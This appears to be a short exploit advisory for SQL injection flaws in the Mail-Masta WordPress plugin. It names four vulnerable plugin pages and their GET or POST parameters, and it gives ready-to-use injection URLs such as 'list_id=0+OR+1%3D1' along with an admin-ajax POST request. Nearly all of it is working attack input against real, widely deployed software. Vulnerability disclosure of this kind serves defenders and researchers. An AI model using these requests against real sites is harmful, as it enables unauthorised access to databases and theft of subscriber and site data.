 Wordpress Plugin Mail-Masta SQL Injection
=========================================
Page: ../wp-content/plugins/mail-masta/inc/lists/csvexport.php

GET Parameter: list_id

http://<wordpress>/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php




Page: ../wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires authentication to Wordpress admin)

GET Parameter: filter_list

http://<wordpress>/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1




Page: ../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires authentication to Wordpress admin)

POST Parameter: camp_id

http://<wordpress>/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php




Page: ../wp-content/plugins/mail-masta/inc/campaign_save.php (Requires authentication to Wordpress admin)

POST Parameter: list_id


POST /wordpress/wp-admin/admin-ajax.php?id= HTTP/1.1

...snip...
action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwordpress%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1
